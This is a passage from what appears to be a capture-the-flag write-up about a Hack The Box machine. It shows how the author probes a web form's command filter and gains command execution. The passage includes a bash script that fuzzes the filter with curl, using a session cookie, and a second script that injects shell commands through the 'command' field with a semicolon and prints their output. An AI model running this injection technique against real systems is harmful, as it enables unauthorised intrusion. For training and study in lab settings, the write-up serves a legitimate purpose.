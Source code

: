 ```

</body>
</html>
Command is not allowed.

```

Neat. Ok. Now I’ll write a bash script that loops over a given word list, and POSTs that word as the command using curl, and checks to see if it’s blocked. I’ll even add some [colored output](https://misc.flogisoft.com/bash/tip_colors_and_formatting) to make it more readable:

```

#/bin/bash

command_file=$1
for cmd in $(cat ${command_file}); do
    curl -s -6 -X POST "http://[dead:beef::250:56ff:feb2:7cff]:80/" -H "Cookie: PHPSESSID=697rbtjrbikamspvck4p3u309d" -d "command=${cmd}" | grep -q "Command is not allowed."
    if [ $? -eq 1 ]; then
        echo -e "  \e[42m${cmd}\e[49m allowed";
    else
        echo -e "  \e[41m${cmd}\e[49m blocked";
    fi;
done

```

![1546523176280](https://0xdfimages.gitlab.io/img/1546523176280.png)

In [Beyond Root](#web-application-filtering), I’ll take a look at how the site was filtering.

## Shell as loki

### View RCE Results

Thinking about how the box is taking my input and running it, it is likely running my command and piping the output to `/dev/null` and then checking the status code. But if that’s the case, what happens when I run multiple commands? Output! Before I figured that out, I went down the road of exfiling data over ICMP. I’ll show how I did that in another [Beyond Root Section](#exfil-via-ping).

If I submit `ping -c 2 127.0.0.1; echo test`, I get:

![1546486125357](https://0xdfimages.gitlab.io/img/1546486125357.png)

I wrote a little bash script that will take am ip and cmd, and print out the results:

```

#!/bin/bash

ip=$1
cmd=$2

curl -s -6 -X POST "http://[${ip}]:80/" -d "command=${cmd};" | grep -F "</html>" -A 10 | grep -vF -e "</html>" -e "Command was executed succesfully!"

```
